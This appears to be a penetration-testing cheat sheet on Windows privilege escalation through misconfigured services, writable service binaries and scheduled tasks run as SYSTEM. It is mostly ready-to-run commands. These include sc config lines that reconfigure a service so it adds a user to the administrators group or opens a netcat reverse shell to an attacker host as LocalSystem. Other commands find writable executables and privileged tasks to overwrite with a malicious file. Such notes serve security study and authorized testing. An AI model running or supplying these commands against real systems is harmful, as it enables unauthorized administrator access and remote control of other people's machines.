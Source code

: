 - Case-a) Add the user to the admin group.

```powershell
sc config "Service Name" binPath="net localgroup administrators <username> /add"
```

- Case-b) Upload nc.exe to writable directory and change the config of service

```powershell
sc config "Service Name" binpath= "C:\Inetpub\nc.exe -nv <attackerip> <attacker port> -e C:\WINDOWS\System32\cmd.exe"
sc config "Service Name" obj= ".\LocalSystem" password= ""
```

- Restart Service

```powershell
net stop [service name] && net start [service name]
```

---

### Executable file

Here we are looking for executable files associace with a service that we can overwrite.

- Find the files where we have write permission

```powershell
accesschk.exe -wusv "user" "C:\Program Files" | findstr /E /C:".exe"
```

- Find out the service name

```powershell
wmic service name,pathname | findstr <name_service.exe>
```

- Generate a malicios exe file and dopr it in the target directory

---

### Schedule Task

_Here we are looking for tasks that are run by a privileged user, and run a binary that we can overwrite._

- List all the tasks

```powershell
schtasks /query /fo LIST /v
```

```powershell
Get-ScheduledTask | where {$_.Principal.UserID -eq "SYSTEM" -and $_.TaskPath -notlike "\Microsoft*"} | Select-Object TaskName, @{Name="FilePath";Expression={$_.Actions[0].Execute}}
```

- Copy-paste the text and past it into file on Kali _schtask.txt_
- Search the task with privilege. You can change the name SYSTEM to another privileged user.

```powershell
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```
